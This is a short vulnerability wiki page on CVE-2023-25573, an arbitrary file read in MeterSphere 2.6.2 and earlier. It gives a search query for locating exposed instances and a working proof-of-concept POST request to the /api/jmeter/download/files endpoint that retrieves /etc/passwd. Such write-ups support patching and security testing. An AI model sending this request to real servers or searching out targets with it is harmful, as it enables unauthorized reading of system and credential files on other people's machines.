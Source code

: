 # Metersphere file arbitrary file reading vulnerability CVE-2023-25573

## Vulnerability Description

The Metersphere file interface has arbitrary file reading vulnerability, and an attacker can obtain sensitive file compression packages through the interface.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Metersphere <=2.6.2</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app.name="MeterSphere"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1682156003733-4bf0790b-5111-4258-b8e5-ff8fd83cb017.png)

Verify POC

```plain
POST /api/jmeter/download/files
Content-Type: application/json

{"reportId":"pass","bodyFiles":[{"id":"aaa","name":"/etc/passwd"}]}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1682155967782-ec79b940-cc14-4615-a984-b645bfc9fedd.png)